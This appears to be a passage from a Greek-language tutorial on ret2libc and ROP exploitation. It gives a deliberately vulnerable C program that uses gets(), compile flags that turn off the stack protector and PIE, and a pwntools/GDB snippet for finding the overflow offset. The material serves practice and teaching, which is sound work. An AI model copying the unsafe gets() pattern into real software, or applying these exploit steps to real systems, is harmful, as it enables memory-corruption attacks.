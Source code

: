 ## Other tutorials and binaries to practice

This tutorial is going to exploit the code/binary proposed in this tutorial: [https://tasteofsecurity.com/security/ret2libc-unknown-libc/](https://tasteofsecurity.com/security/ret2libc-unknown-libc/)\
Another useful tutorials: [https://made0x78.com/bseries-ret2libc/](https://made0x78.com/bseries-ret2libc/), [https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html](https://guyinatuxedo.github.io/08-bof\_dynamic/csaw19\_babyboi/index.html)

## Code

Filename: `vuln.c`
```c
#include <stdio.h>

int main() {
char buffer[32];
puts("Simple ROP.\n");
gets(buffer);

return 0;
}
```

```bash
gcc -o vuln vuln.c -fno-stack-protector -no-pie
```
## ROP - Leaking LIBC template

Κατεβάστε το exploit και τοποθετήστε το στον ίδιο φάκελο με το ευάλωτο δυαδικό αρχείο και δώστε τα απαραίτητα δεδομένα στο σενάριο:

{% content-ref url="rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-template.md)
{% endcontent-ref %}

## 1- Εύρεση του offset

Το πρότυπο χρειάζεται ένα offset πριν συνεχίσει με το exploit. Αν παρέχεται κάποιο, θα εκτελέσει τον απαραίτητο κώδικα για να το βρει (κατά προεπιλογή `OFFSET = ""`):
```bash
###################
### Find offset ###
###################
OFFSET = ""#"A"*72
if OFFSET == "":
gdb.attach(p.pid, "c") #Attach and continue
payload = cyclic(1000)
print(r.clean())
r.sendline(payload)
#x/wx $rsp -- Search for bytes that crashed the application
#cyclic_find(0x6161616b) # Find the offset of those bytes
return
```
**Εκτελέστε** `python template.py` θα ανοίξει μια κονσόλα GDB με το πρόγραμμα που έχει καταρρεύσει. Μέσα σε αυτήν την **κονσόλα GDB** εκτελέστε `x/wx $rsp` για να αποκτήσετε τα **bytes** που θα αντικαθιστούσαν το RIP. Τέλος, αποκτήστε την **απόσταση** χρησιμοποιώντας μια κονσόλα **python**:
```python
from pwn import *
cyclic_find(0x6161616b)
```